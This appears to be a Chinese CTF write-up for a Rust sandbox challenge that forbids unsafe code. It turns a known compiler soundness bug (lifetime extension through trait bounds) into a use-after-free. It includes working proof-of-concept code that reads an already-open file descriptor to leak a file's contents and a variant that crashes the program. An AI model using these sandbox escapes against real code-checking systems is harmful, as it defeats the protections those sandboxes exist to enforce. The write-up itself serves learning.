 # 编原译理习题课 · 实验班

## 解题过程

在 rust 的 issues 里逛了逛。第一个感觉有戏的是 [Double free on Linux with stable toolchain #100914](https://github.com/rust-lang/rust/issues/100914)，毕竟 double link，很符合我对野指针和任意地址写的想象。但是这个是申请大堆栈造成的，需要创建新的 thread 才能利用。但沙箱不允许创建线程，只好放弃。

之后看到了大量 lifetime 相关的 soundness 问题，比如 [#84591](https://github.com/rust-lang/rust/issues/84591) 可以 extend lifetime，返回一个失效对象的引用，很符合我对 use after free 的想象，并且不需要额外的系统调用，感觉也有戏。

首先把 POC 里的引用都改成 mut 引用。为后续做准备。然后多次尝试发现候栈上的变量失效后，有时候会被覆写，但具体什么情况下会覆写也没太搞懂。

做第一问的时候思路非常不清晰，想返回栈上的一个引用的引用，栈上失效的引用被覆盖，然后再次访问就会遇到野指针。但因为不清楚怎么控制程序去覆盖栈上的变量，所以用了一些人工 fuzz 的手段，加几个 vector 搞搞 print，试了一会还真过了。由于过于丑陋我甚至没有留下那段代码，，，

做第二问时由于要读一个已经打开的文件，必须得能控制了。这时有一个思路：如果没有发生覆写，让一个 `Vec<Option<File>> vec![None]` 失效，会释放堆上的 chunk；再创建一个相同大小的 `Vec<u32> vec![3]`，就可以拿到想要的 fd。读取之后再输出就可以了。

~~~rust
#![forbid(unsafe_code)]
use std::{fs::File, io::Read};
trait Subtrait<'a, 'b, R>: Supertrait<'a, 'b> {}
trait Supertrait<'a, 'b> {
    fn convert<T: ?Sized>(x: &'a mut T) -> &'b mut T;
}

fn need_hrtb_subtrait<'a_, 'b_, S, T: ?Sized>(x: &'a_ mut T) -> &'b_ mut T
where
    S: for<'a, 'b> Subtrait<'a, 'b, &'b &'a ()>,
{
    need_hrtb_supertrait::<S, T>(x) // <- this call works
}

fn need_hrtb_supertrait<'a_, 'b_, S, T: ?Sized>(x: &'a_ mut T) -> &'b_ mut T
where
    S: for<'a, 'b> Supertrait<'a, 'b>,
{
    S::convert(x)
}
struct MyStruct;
impl<'a: 'b, 'b> Supertrait<'a, 'b> for MyStruct {
    fn convert<T: ?Sized>(x: &'a mut T) -> &'b mut T {
        x
    }
}
impl<'a, 'b> Subtrait<'a, 'b, &'b &'a ()> for MyStruct {}

fn extend_lifetime<'a, 'b, T: ?Sized>(x: &'a mut T) -> &'b mut T {
    need_hrtb_subtrait::<MyStruct, T>(x)
}
pub fn run() {
    let d;
    {
        let mut x :Vec<Option<File>> = vec![None];
        d = extend_lifetime(&mut x);
    }
    let another: Vec<u32> = vec![3];
    let mut file = d.first_mut().unwrap().take().unwrap();
    println!("Should be OK...");
    let mut buffer = String::new();
    file.read_to_string(&mut buffer).unwrap();
    println!("{}", buffer)
}
~~~

写 Writeup 时又试了个更合理让程序 SIGSEGV 的方法，即在 vector 里存指针，然后用 0 覆盖：

~~~rust
pub fn run() {
    let t = 666;
    let d;
    {
        let mut x = vec![&t];
        d = extend_lifetime(&mut x);
    }
    let another: Vec<u64> = vec![0];
    let number = *d.first().unwrap();
    println!("{:?}", number);
}
~~~
